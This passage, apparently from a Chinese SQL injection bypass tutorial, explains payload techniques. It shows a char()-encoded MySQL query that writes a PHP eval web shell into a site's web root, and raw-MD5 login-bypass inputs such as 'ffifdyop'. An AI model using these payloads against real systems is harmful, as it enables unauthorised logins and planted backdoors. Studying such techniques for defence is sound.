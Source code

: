 也可以不用concat函数，直接用char函数也具有连接功能：

```bash
set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,119,104,111,97,109,105,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare s1 from @sql;execute s1;
1
```

## 14’".md5($pass,true)."’ 登录绕过

很多站点为了安全都会利用这样的语句：

```bash
SELECT * FROM users WHERE password = '.md5($password,true).';
1
```

md5(string,true) 函数在指定了true的时候，是返回的原始 16 字符二进制格式，也就是说会返回这样子的字符串：'or’6\xc9]\x99\xe9!r,\xf9\xedb\x1c：

![在这里插入图片描述](SQLi%E7%BB%95%E8%BF%87%E5%A7%BF%E5%8A%BF%E6%95%B4%E7%90%86.assets/2611a867b98e45589be9b4aacbab0061.png)

这不是普通的二进制字符串，而是 'or’6\xc9]\x99\xe9!r,\xf9\xedb\x1c 这种，这样的话就会和前面的形成闭合，构成万能密码。

SELECT * FROM users WHERE password = ‘‘or’6…’
这就是永真的了，这就是一个万能密码了相当于 1’ or 1=1# 或 1’ or 1#。

但是我们思考一下为什么 6\xc9]\x99\xe9!r,\xf9\xedb\x1c 的布尔值是true呢？

在mysql里面，在用作布尔型判断时，以1开头的字符串会被当做整型数（这类似于PHP的弱类型）。要注意的是这种情况是必须要有单引号括起来的，比如 password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1 ，也就相当于 password=‘xxx’ or true，所以返回值就是true。这里不只是1开头，只要是数字开头都是可以的。当然如果只有数字的话，就不需要单引号，比如 password=‘xxx’ or 1，那么返回值也是 true。（xxx指代任意字符）

接下来就是找到这样子的字符串，这里给出两个吧。

```bash
ffifdyop：
content: ffifdyop
hex: 276f722736c95d99e921722cf9ed621c
raw: 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
string: 'or'6]!r,b
129581926211651571912466741651878684928：
123456
129581926211651571912466741651878684928：
content: 129581926211651571912466741651878684928
hex: 06da5430449f8f6f23dfc1276f722738
raw: \x06\xdaT0D\x9f\x8fo#\xdf\xc1'or'8
string: T0Do#'or'8
12345
```